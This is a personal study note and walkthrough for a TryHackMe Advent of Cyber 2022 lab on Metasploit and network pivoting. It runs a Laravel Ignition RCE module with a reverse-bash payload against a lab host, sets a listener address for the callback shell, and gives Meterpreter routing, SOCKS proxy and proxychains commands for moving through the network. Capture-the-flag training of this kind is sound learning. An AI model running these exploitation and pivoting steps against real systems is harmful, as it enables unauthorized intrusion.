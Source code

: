 **Title:** Day 9 - THM 2022
**Tags:** [[Advent Cyber 2022]]
**Topics:** #TryHackMe #Pivoting

---
# Concepts
## Docker
Package applications and the associated dependencies into a single unit called “image”. This image can be shared and run as a container (Locally or remotely on a production server).
Common wait to know if the application is a docker container is to verify the existence of a `.docker.env` file.

## Metasploit
Powerful penetration testing tool for gaining initial access to systems. You can also perform post-expoiltation and pivoting to other applications and systems.

### Metasploit session
After exploiting a remote target with a Metasploit module, a session is often opened by default. These sessions are Command Shells or Meterpreter session (Allow command execution).

```Metasploit Console
# view sessions
sessions

# upgrade the last opened session to Meterpreter
sessions -u -1

# interact with a session
sessions -i session_id

# Background the currently interactive session, and go back to the Metasploit prompt
background
```

## Meterpreter
Advanced payload that provides interactive access to compromised system. Can run commands on remote target, including uploading/downloading files and pivoting.

```Meterpreter Commands
# Get information about the remote system, such as OS
sysinfo

# Upload a file or directory
upload local_file.txt

# Display interfaces
ipconfig

# Resolve a set of host names on the target to IP addresses - useful for pivoting
resolve remote_service1 remote_service2
```

## Pivoting
Once a system is compromised, it can allow the attacker to find more systems on the network and exploit them. We can use nmap or arp-scan to find more machines and services.
![[Pasted image 20221210101259.png]]


## Using Metasploit
1. Open Metasploit with `msfconsole` command.

2. Select the most useful Metasploit module for this attack (laravel).
```Metasploit
# To search for a module, use the ‘search’ command:
msf6 > search laravel

# Load a module with the ‘use’ command
msf6 > use multi/php/ignition_laravel_debug_rce

# view the information about the module, including the module options, description, CVE details, etc
msf6 exploit(multi/php/ignition_laravel_debug_rce) > info
```

3. Now you can view the options, set options and run the module.
```Metasploit Commands
# View the available options to set
show options

# Set the target host and logging
set rhost MACHINE_IP
set verbose true

# Set the payload listening address; this is the IP address of the host running Metasploit
set lhost LISTEN_IP

# show options again
show options

# Run or check the module
check
run
```

## Meterpreter to pivot
Metasploit has an internal routing table that can be modified with `route` command. This determines where to send network traffic through.
```Metasploit Commands
# Example usage
route [add/remove] subnet netmask [comm/sid]

# Configure the routing table to send packets destined for 172.17.0.1 to the latest opened session
route add 172.17.0.1/32 -1

# Configure the routing table to send packets destined for 172.28.101.48/29 subnet to the latest opened session
route add 172.28.10.48/29 -1

# Output the routing table
route print
```

## Socks Proxy
Intermediate server that supports relaying networking traffic between two machines. Allows the implementation of pivoting technique. You can run Socks Proxy locally or in the compromised system. This can be achieved using `auxiliary/server/socks_proxy` module.

```Metasploit Commands
use auxiliary/server/socks_proxy
run srvhost=127.0.0.1 srvport=9050 version=4a
```

Tools such as `curl` supports sending requests through a socks proxy server via `--proxy` flag.
```sh
curl --proxy socks4a://localhost:9050 http://10.10.40.65
```

ProxyChain can intercept the tool's request to open a new network connection and route the request through a socks proxy instead.
```sh
proxychains -q nmap -n -sT -Pn -p 22,80,443,5432 10.10.40.65
```

# Challenge
## Enumeration
```sh
└─# nmap -p- 10.10.40.65 -Pn -n -v
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:C2:4A:6E:C9:01 (Unknown)
```

## Web
![[Pasted image 20221210103547.png]]

Now we can see that the server is running Laravel (Common Web Application development framework).
The application may be vulnerable to a remote code execution exploit. We can use Metasploit to verify it.

## Metasploit

```Metasploit Commands
msf6 > use multi/php/ignition_laravel_debug_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(multi/php/ignition_laravel_debug_rce) > check rhost=10.10.40.65 HttpClientTimeout=20

[*] Checking component version to 10.10.40.65:80
[*] 10.10.40.65:80 - The target appears to be vulnerable.
```

[//]: Set `HttpClientTimeout=20` or check may fail. If the connection is really slow/unstable, you may need a higher value.

Now that we know that the target is vulnerable, let's pwn it.
```Metasploit Commands
run rhost=10.10.40.65 lhost=OUR_IP HttpClientTimeout=20
```

To upgrade the session to Meterpreter, use the `sessions -u -1` command.
```Metasploit

```